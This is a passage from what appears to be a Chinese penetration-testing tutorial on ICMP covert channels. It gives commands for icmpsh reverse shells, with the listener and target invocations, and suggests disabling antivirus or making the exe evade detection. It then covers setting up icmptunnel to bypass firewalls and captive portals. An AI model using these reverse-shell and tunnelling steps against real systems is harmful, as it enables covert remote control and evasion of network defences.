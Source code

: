 ![image-20200927154536532](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200927154536532.png)

## 4.1 icmpsh

[icmpsh](https://github.com/inquisb/icmpsh)是一个反向icmp shell，被控端只能支持windows，控制端可以支持c、perl、python环境。

在渗透过程中，遇到目标不能正常返回tcp的shell时，就可以尝试使用该工具，通过走icmp去获取一个shell。

在运行时不要忘记关闭icmp应答，要不会陷入个死循环。

`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

在控制端执行监听：icmpsh_m.py attack-IP  target-IP

把exe文件上传到目标机，如果主机有杀软需要关闭杀软或者对这个exe文件进行免杀处理。

执行：icmpsh.exe -t attack-ip

稳定性和速度都尚可。

![image-20200927174924241](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200927174924241.png)

观察可以发现，由目标机不断向攻击机发送ICPM包，攻击会把命令带到返回包中，当目标机接收命令后会将结果带到请求中。

同时控制每个包的数据长度在106，数据长度都是64。

在等待过程中，数据包中都不会带有data内容。

## 4.2 icmp隧道

ICMP隧道是指将TCP连接通过ICMP包进行隧道传送。隧道呢可以理解为一个点对点连接。

通过icmp隧道可以做到

- 突破专门认证：连接到公共场所，如酒店、机场等wifi，可以突破其页面认证

- 突破防火墙：绕过防火墙的一些防护策略

- 加密通信：可以通过加密，创建完全加密的通信通道
- 突破运营商的TCP或者UDP速度限制

### 4.2.1 icmptunnel

**[icmptunnel](https://github.com/DhavalKapil/icmptunnel)**是一个稳定的icmp隧道建立工具，可以穿过状态防火墙或NAT。它和ptunnel不同的是，可以通过隧道代理任何IP流量。此外，所有的客户端IP包-而不仅仅是单个会话，端口等。

优点

- 数据加密- ICMP有效载荷是加密的。

- 多功能性-任何IP流量都可以通过隧道。

使用方法

```
下载 
git clone https://github.com/DhavalKapil/icmptunnel
编译 
cd icmptunnel
make
```
